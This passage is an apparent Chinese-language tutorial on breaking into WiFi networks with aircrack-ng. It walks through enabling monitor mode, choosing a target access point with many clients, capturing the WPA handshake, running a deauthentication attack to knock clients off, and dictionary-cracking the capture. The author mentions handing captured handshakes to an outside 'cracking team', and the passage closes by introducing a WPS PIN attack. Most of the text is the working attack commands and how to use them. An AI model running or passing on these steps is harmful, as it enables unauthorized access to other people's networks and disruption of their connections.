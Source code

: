 ![enter image description here](http://drops.javaweb.org/uploads/images/9510725ade1fa8d73b3192e2ca45e0a0229b1c15.jpg)

```
Airmon-ng start wlan0

```

意思是启动网卡的监听模式.敲完这条命令后设备名 wlan=mon0 一般命令后都是要跟上设备名

![enter image description here](http://drops.javaweb.org/uploads/images/072e24571d52ca923e045a8b771c3570f2209aa5.jpg)

```
Airodump-ng mon0 

```

在抓包前肯定是要先选择目标.这条命令的意思是探测无线网络.选好目标,首选是客户端连接多的.复制好BSSID即MAC地址.记住信道（CH）

![enter image description here](http://drops.javaweb.org/uploads/images/86c28913846fa6882f93dc8f1f9055ed198161c9.jpg)

```
Airodump-ng -c 1 --bssid XX:XX:XX:XX:XX -w mobi mon0

```

`-C`参数是选择目标信道.如果该信道就目标一个AP使用的话不用加上`--bssid`,这个参数是为了跟精准的锁定目标~~`-w`是保存握手包的名字.获取后会在当前目录生成一个`mobi-01.cap`的握手包。这时就不用关闭这条shell而是另外打开一个shell

![enter image description here](http://drops.javaweb.org/uploads/images/be8cea01c23651d3078c38884c06651a4a44c779.jpg)

```
Aireplay-ng -0 10 -a (AP的mac) -c (客户端的mac) 

```

> -0参数是发起deauth攻击.10 是次数可以调节
> 
> -a 即第一条shell中BSSID.下面的AP路由器MAC地址
> 
> -c 即STATION下客户机的MAC地址(这条为可选项)

![enter image description here](http://drops.javaweb.org/uploads/images/31d0eee9098036a6c978a34f7fe0b1cf1b453f77.jpg)

```
Aircrack-ng -w /pentest/passwords/sxsx.lst mobi-01.cap

```

`-w`选择字典`mobi-01.cap`即抓到的握手包

Ps：我是不建议自己跑密码的.我直接挂载u盘吧握手包copy到u盘里在.通过QQ方式吧包发给跑包团队. 然后是吧正确密码添加到了我的字典里。才会出现上图（既成功破解后的图）！ 另外是密码使用有一定联系性规律性密码

**破解方案二:利用路由器wps功能漏洞**

Airodump-ng mon0 查看附近无线情况。在MB这行带点的“.”表示能跑出pin码。使用wash -i mon0 -C可查看是否开启了wps功能

![enter image description here](http://drops.javaweb.org/uploads/images/0f593c13ac15ae13ef4fcec366650396d97e27db.jpg)
